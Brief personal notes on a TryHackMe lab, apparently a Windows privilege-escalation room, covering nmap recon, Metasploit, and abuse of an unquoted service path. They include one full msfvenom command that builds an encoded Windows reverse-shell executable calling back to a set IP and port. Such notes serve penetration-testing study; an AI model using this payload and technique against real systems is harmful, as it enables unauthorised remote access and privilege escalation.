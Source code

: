 tryhack me 

recon 
nmap workd rustscan did not
port 80 8080 open
port 8080 had a vulnerability 
msfconsole 
powershell mafia ps script
use unquoted strings to get service we can exploit 
turn off service using sc net stop service
crate a payload with msf venom add advanced.exe 
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.135.33 LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
to its path
run 